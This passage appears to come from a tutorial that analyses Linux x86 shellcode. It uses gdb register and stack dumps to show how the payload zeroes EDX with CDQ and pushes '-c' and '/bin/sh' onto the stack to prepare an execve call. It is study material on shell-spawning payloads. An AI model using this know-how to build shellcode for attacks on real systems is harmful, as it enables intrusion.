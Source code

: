 ## CDQ let EDX your wing-man
Since EAX is mostly used for SYSCALLS, and most SYSCALLS don't set the flag bit in EAX, extending the sign bit comes in handy if you want to use a register as a NULL terminator for strings or if you want to use a zeroed out register, in this case EDX will be your wing-man.

Stepping through instructions, we find that EDX is pushed into the stack as a NULL terminator; Then -c is pushed into the stack and saved in EDI. 
``` 
[----------------------------------registers-----------------------]
EAX: 0xb ('\x0b')
EBX: 0xb7fc6ff4 --> 0x1a5d7c 
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0xbffff706 --> 0x632d ('-c')
EBP: 0xbffff748 --> 0x0 
ESP: 0xbffff706 --> 0x632d ('-c')
EIP: 0x804a04b ("h/sh")
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
   0x804a044 <shellcode+4>: push   edx
   0x804a045 <shellcode+5>: pushw  0x632d
   0x804a049 <shellcode+9>: mov    edi,esp
=> 0x804a04b <shellcode+11>: push   0x68732f
   0x804a050 <shellcode+16>: push   0x6e69622f
   0x804a055 <shellcode+21>: mov    ebx,esp
   0x804a057 <shellcode+23>: push   edx
   0x804a058 <shellcode+24>: call   0x804a065 <shellcode+37>
[------------------------------------stack-------------------------]
0000| 0xbffff706 --> 0x632d ('-c')
0004| 0xbffff70a --> 0x84300000 
0008| 0xbffff70e --> 0x85100804 
0012| 0xbffff712 --> 0xf0804 
0016| 0xbffff716 --> 0x9ff40000 
0020| 0xbffff71a --> 0x84610804 
0024| 0xbffff71e --> 0xffff0804 
0028| 0xbffff722 --> 0x4196ffff 
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a04b in shellcode ()
``` 
After that, /bin/sh is pushed into the stack and saved to EBX register 
``` 
[----------------------------------registers-----------------------]
EAX: 0xb ('\x0b')
EBX: 0xbffff6fe ("/bin/sh")
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0xbffff706 --> 0x632d ('-c')
EBP: 0xbffff748 --> 0x0 
ESP: 0xbffff6fe ("/bin/sh")
EIP: 0x804a057 --> 0x8e852
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
   0x804a04b <shellcode+11>: push   0x68732f
   0x804a050 <shellcode+16>: push   0x6e69622f
   0x804a055 <shellcode+21>: mov    ebx,esp
=> 0x804a057 <shellcode+23>: push   edx
   0x804a058 <shellcode+24>: call   0x804a065 <shellcode+37>
   0x804a05d <shellcode+29>: das    
   0x804a05e <shellcode+30>: bound  ebp,QWORD PTR [ecx+0x6e]
   0x804a061 <shellcode+33>: das
```